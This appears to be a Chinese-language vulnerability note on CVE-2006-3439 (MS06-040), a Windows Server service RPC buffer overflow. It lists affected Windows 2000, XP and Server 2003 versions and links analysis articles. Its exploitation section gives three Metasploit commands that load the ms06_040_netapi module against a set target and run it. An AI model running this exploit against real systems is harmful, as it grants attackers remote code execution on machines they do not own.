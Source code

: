 ###  CVE-2006-3439

#### 描述

服务器服务中的缓冲区溢出允许包括匿名用户在内的远程攻击者通过精心制作的RPC消息执行任意代码

#### 影响版本

| Product              | CPU Architecture | Version | Update | Tested             |
| -------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 2000         |                  |         | SP4    | &#10004; |
| Windows  Server 2003 |                  | R2      |        |                    |
| Windows  Server 2003 |                  |         | SP1    |                    |
| Windows  Server 2003 |                  |         | SP1    |                    |
| Windows  Server 2003 |                  |         |        |                    |
| Windows  Server 2003 |                  |         |        |                    |
| Windows Xp           |                  |         | SP1    |                    |
| Windows Xp           |                  |         | SP2    |                    |

#### 利用方式

msf 利用 测试系统Windows Server 2000 SP4 x86

```
use exploit/windows/smb/ms06_040_netapi
set RHOST 192.168.1.17
run
```

#### 分析文章
- http://www.atomsec.org/%E5%AE%89%E5%85%A8/ms06-040cve-2006-3439%E9%9D%99%E6%80%81%E5%88%86%E6%9E%90/
- https://bbs.pediy.com/thread-266157.htm
